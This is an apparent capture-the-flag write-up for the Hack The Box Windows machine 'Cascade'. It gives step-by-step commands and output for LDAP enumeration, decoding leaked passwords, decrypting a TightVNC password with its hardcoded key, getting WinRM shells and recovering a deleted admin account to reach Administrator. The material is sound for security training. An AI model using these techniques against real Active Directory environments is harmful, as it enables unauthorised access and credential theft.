

---
search:
  exclude: true
---
# Cascade Writeup

## Introduction :

Cascade is a Medium Windows box released back in March 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/HTB/cascade]
    → nmap -vvv -p- 10.10.10.182 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 53/tcp on 10.10.10.182
    Discovered open port 135/tcp on 10.10.10.182
    Discovered open port 445/tcp on 10.10.10.182
    Discovered open port 139/tcp on 10.10.10.182
    Discovered open port 5985/tcp on 10.10.10.182
    Discovered open port 49158/tcp on 10.10.10.182
    Discovered open port 49154/tcp on 10.10.10.182
    Discovered open port 49157/tcp on 10.10.10.182
    Discovered open port 3269/tcp on 10.10.10.182
    Discovered open port 49155/tcp on 10.10.10.182
    Discovered open port 3268/tcp on 10.10.10.182
    Discovered open port 49170/tcp on 10.10.10.182
    Discovered open port 88/tcp on 10.10.10.182
    Discovered open port 636/tcp on 10.10.10.182
    Discovered open port 389/tcp on 10.10.10.182
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → nmap -sCV -p 53,135,445,139,3269,636,389 -Pn 10.10.10.182
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-24 12:27 CEST
    Nmap scan report for 10.10.10.182
    Host is up (0.45s latency).
    
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
    | dns-nsid:
    |_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    636/tcp  open  tcpwrapped
    3269/tcp open  tcpwrapped
    Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: 8m04s
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2021-06-24T10:36:29
    |_  start_date: 2021-06-24T08:24:15
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 84.94 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up the LDAP ports (389,636) so let's investigate them:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → ldapsearch -x -h 10.10.10.182 -s base
    # extended LDIF
    #
    # LDAPv3
    # base (default) with scope baseObject
    # filter: (objectclass=*)
    # requesting: ALL
    #
    
    #
    dn:
    currentTime: 20210624104011.0Z
    subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=cascade,DC=local
    dsServiceName: CN=NTDS Settings,CN=CASC-DC1,CN=Servers,CN=Default-First-Site-N
     ame,CN=Sites,CN=Configuration,DC=cascade,DC=local
    namingContexts: DC=cascade,DC=local
    namingContexts: CN=Configuration,DC=cascade,DC=local
    namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
    namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
    namingContexts: DC=ForestDnsZones,DC=cascade,DC=local
    defaultNamingContext: DC=cascade,DC=local
    
    [...]
    
    

So we 're going to fetch from DC=cascade,DC=local:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → ldapsearch -x -h 10.10.10.182 -b 'DC=cascade,DC=local' > ldap.enum
    
    

It produces alot of output so let's grep the interesting things out of it:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → ldapsearch -x -h 10.10.10.182 -b 'DC=cascade,DC=local' > ldap.enum
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → cat ldap.enum| grep -i pwd | grep -ve "Last"
    maxPwdAge: -9223372036854775808
    minPwdAge: 0
    minPwdLength: 5
    pwdProperties: 0
    pwdHistoryLength: 0
    badPwdCount: 0
    maxPwdAge: -37108517437440
    minPwdAge: 0
    minPwdLength: 0
    pwdProperties: 0
    pwdHistoryLength: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    cascadeLegacyPwd: clk0bjVldmE=
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    badPwdCount: 0
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → echo 'clk0bjVldmE=' | base64 -d
    rY4n5eva%
    

So here we have a password. But we don't know whose password it is, so let's grep the lines above **cascadeLegacyPwd**
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → cat ldap.enum| grep -B 15 'cascadeLegacyPwd'
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
    accountExpires: 9223372036854775807
    logonCount: 2
    sAMAccountName: r.thompson
    sAMAccountType: 805306368
    userPrincipalName: r.thompson@cascade.local
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
    dSCorePropagationData: 20200126183918.0Z
    dSCorePropagationData: 20200119174753.0Z
    dSCorePropagationData: 20200119174719.0Z
    dSCorePropagationData: 20200119174508.0Z
    dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 132294360317419816
    msDS-SupportedEncryptionTypes: 0
    cascadeLegacyPwd: clk0bjVldmE=
    
    

Now we know that this is r.thompson's password, so let's try to login via SMB:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → smbclient -U 'r.thompson' -L \\\\10.10.10.182\\
    Enter WORKGROUP\r.thompson's password: **rY4n5eva**
    
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            Audit$          Disk
            C$              Disk      Default share
            Data            Disk
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share
            print$          Disk      Printer Drivers
            SYSVOL          Disk      Logon server share
    SMB1 disabled -- no workgroup available
    

Let's get everything we can from the Data share:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → smbclient -U 'r.thompson' \\\\10.10.10.182\\Data
    Enter WORKGROUP\r.thompson's password:
    Try "help" to get a list of possible commands.
    smb: \> recurse on
    smb: \> prompt off
    smb: \> mget *
    NT_STATUS_ACCESS_DENIED listing \Contractors\*
    NT_STATUS_ACCESS_DENIED listing \Finance\*
    NT_STATUS_ACCESS_DENIED listing \Production\*
    NT_STATUS_ACCESS_DENIED listing \Temps\*
    getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
    getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (0.7 KiloBytes/sec) (average 0.9 KiloBytes/sec)
    getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (2.6 KiloBytes/sec) (average 1.5 KiloBytes/sec)
    getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (1.5 KiloBytes/sec) (average 1.5 KiloBytes/sec)
    smb: \> exit
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → tree
    .
    ├── Contractors
    ├── Finance
    ├── **IT**
    │   ├── Email Archives
    │   │   └── Meeting_Notes_June_2018.html
    │   ├── LogonAudit
    │   ├── Logs
    │   │   ├── Ark AD Recycle Bin
    │   │   │   └── ArkAdRecycleBin.log
    │   │   └── DCs
    │   │       └── dcdiag.log
    │   └── **Temp**
    │       ├── r.thompson
    │       └── **s.smith**
    │           └── **VNC Install.reg**
    ├── ldap.enum
    ├── Production
    └── Temps
    
    13 directories, 5 files
    
    

Here we see VNC Install.reg which looks interesting:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → cat IT/Temp/s.smith/VNC\ Install.reg
    Windows Registry Editor Version 5.00
    
    [HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]
    
    [HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
    "ExtraPorts"=""
    "QueryTimeout"=dword:0000001e
    "QueryAcceptOnTimeout"=dword:00000000
    [...]
    
    "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
    
    [...]
    
    

Now the password string seems to be an encoded string which is also hex encoded. After googling a bit, we see [here](https://github.com/frizb/PasswordDecrypts) that VNC uses the hardcoded key **"\x17\x52\x6b\x06\x23\x4e\x58\x07"** to encrypt passwords, so let's decrypt it with metasploit:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → msfconsole
    
                                       ___          ____
                                   ,-""   `.      < HONK >
                                 ,'  _   e )`-._ /  ----
                                /  ,' `-._v.===-'
                               /  /
                              /  ;
                  _          /   ;
     (`._    _.-"" ""--..__,'    |
     v_  `-""                     \
      v`-                          :
       (__   v__.                  ;
         `-.   '-.__.      _.'    /
            \      `-.__,-'    _,'
             `._    ,    /__,-'
                ""._\__,'v v____
                     | |  `----.`.
                     | |        \ `.
                     ; |___      \-``
                     \   --v
                      `.`.v
                        `-'
    
    
    
           =[ metasploit v6.0.48-dev                          ]
    + -- --=[ 2139 exploits - 1139 auxiliary - 365 post       ]
    + -- --=[ 592 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 8 evasion                                       ]
    
    Metasploit tip: Save the current environment with the
    save command, future console restarts will use this
    environment again
    
    msf6 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object
    
    irb: warn: can't alias jobs from irb_jobs.
    >> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
    >> require 'rex/proto/rfb'
    => false
    >> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
    => "sT333ve2" 
    >>
    
    

Now if for some reason you can't do it inside metasploit's irb shell, just do it with native linux tools:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
    
    00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
    00000008
    
    

And there you go! We managed to get a password, since the the VNC file was in s.smith's directory, let's try to use that password to login via SMB:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → smbclient -U 's.smith' \\\\10.10.10.182\\Audit$
    Enter WORKGROUP\s.smith's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Wed Jan 29 19:01:26 2020
      ..                                  D        0  Wed Jan 29 19:01:26 2020
      CascAudit.exe                      An    13312  Tue Jan 28 22:46:51 2020
      CascCrypto.dll                     An    12288  Wed Jan 29 19:00:20 2020
      DB                                  D        0  Tue Jan 28 22:40:59 2020
      RunAudit.bat                        A       45  Wed Jan 29 00:29:47 2020
      System.Data.SQLite.dll              A   363520  Sun Oct 27 07:38:36 2019
      System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 07:38:38 2019
      x64                                 D        0  Sun Jan 26 23:25:27 2020
      x86                                 D        0  Sun Jan 26 23:25:27 2020
    
                    13106687 blocks of size 4096. 8167789 blocks available
    smb: \> cd DB
    smb: \DB\> ls
      .                                   D        0  Tue Jan 28 22:40:59 2020
      ..                                  D        0  Tue Jan 28 22:40:59 2020
      Audit.db                           An    24576  Tue Jan 28 22:39:24 2020
    
                    13106687 blocks of size 4096. 8167789 blocks available
    smb: \DB\> get Audit.db
    getting file \DB\Audit.db of size 24576 as Audit.db (6.7 KiloBytes/sec) (average 6.7 KiloBytes/sec)
    

After logging in as s.smith via SMB we see a sqlite3 file called Audit.db, so let's inspect it:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → file Audit.db
    Audit.db: SQLite 3.x database, last written using SQLite version 3027002
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → sqlite3 Audit.db
    SQLite version 3.34.1 2021-01-20 14:10:07
    Enter ".help" for usage hints.
    sqlite> .tables
    DeletedUserAudit  Ldap              Misc
    sqlite> select * from Ldap;
    **1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local**
    
    

Now if we google **BQO5l5Kj9MdErXx6Q6AGOw==** we stumble upon the following C# piece of code[here](https://dotnetfiddle.net/2RDoWz) and at the bottom we see a password **w3lc0meFr31nd** so we try to use it to login with the associated user **ArkSvc** :
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/1 ] [~/HTB/cascade]
    → evil-winrm -u ArkSvc -p 'w3lc0meFr31nd' -i 10.10.10.182
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\arksvc\Documents>
    
    

And we managed to get a shell onto the box!

## **Part 3 : Getting Root Access**

Now in order to privesc to the Administrator user we need to take a look at the current user's Group Memberships:
    
    
    *Evil-WinRM* PS C:\Users\arksvc> net user arksvc
    User name                    arksvc
    Full Name                    ArkSvc
    Comment
    User's comment
    Country code                 000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            1/9/2020 5:18:20 PM
    Password expires             Never
    Password changeable          1/9/2020 5:18:20 PM
    Password required            Yes
    User may change password     No
    
    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   1/29/2020 10:05:40 PM
    
    Logon hours allowed          All
    
    Local Group Memberships      *AD Recycle Bin       *IT
                                 *Remote Management Use
    Global Group memberships     *Domain Users
    The command completed successfully.
    

iHere we see that arksvc is a member of the **AD Recycle Bin** group. So we should be able to reover deleted items from the machine:
    
    
    *Evil-WinRM* PS C:\Users\arksvc> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
    
    [...]
    
    Deleted           : True
    DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
    **Name              : TempAdmin**
                        DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    ObjectClass       : user
    ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
    

Here we see something interesting with the name 'TempAdmin' so let's dig deeper:
    
    
    *Evil-WinRM* PS C:\Users\arksvc> Get-ADObject -filter 'displayName -eq "TempAdmin"' -includeDeletedObjects -Property *
    
    
    accountExpires                  : 9223372036854775807
    badPasswordTime                 : 0
    badPwdCount                     : 0
    CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    **cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz**
    CN                              : TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    codePage                        : 0
    countryCode                     : 0
    Created                         : 1/27/2020 3:23:08 AM
    createTimeStamp                 : 1/27/2020 3:23:08 AM
    Deleted                         : True
    Description                     :
    DisplayName                     : TempAdmin
    DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
    dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
    givenName                       : TempAdmin
    instanceType                    : 4
    isDeleted                       : True
    LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
    lastLogoff                      : 0
    lastLogon                       : 0
    logonCount                      : 0
    Modified                        : 1/27/2020 3:24:34 AM
    modifyTimeStamp                 : 1/27/2020 3:24:34 AM
    msDS-LastKnownRDN               : TempAdmin
    Name                            : TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
    ObjectCategory                  :
    ObjectClass                     : user
    ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
    objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
    primaryGroupID                  : 513
    ProtectedFromAccidentalDeletion : False
    pwdLastSet                      : 132245689883479503
    sAMAccountName                  : TempAdmin
    sDRightsEffective               : 0
    userAccountControl              : 66048
    userPrincipalName               : TempAdmin@cascade.local
    uSNChanged                      : 237705
    uSNCreated                      : 237695
    whenChanged                     : 1/27/2020 3:24:34 AM
    whenCreated                     : 1/27/2020 3:23:08 AM
    

Same as before, we see the **cascadeLegacyPwd** password in base64, so we decode it:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/HTB/cascade]
    → echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
    baCT3r1aN00dles
    
    

let's see if this is the correct Administrator password:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/HTB/cascade]
    → evil-winrm -u Administrator -p 'baCT3r1aN00dles' -i 10.10.10.182
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../../
    
    *Evil-WinRM* PS C:\Users> type Administrator\Desktop\root.txt
    94XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    *Evil-WinRM* PS C:\Users> type s.smith\Desktop\user.txt
    75XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you go! We managed to get to the Administrator user of the box and print both flags.

## **Conclusion**

Here we can see the progress graph :

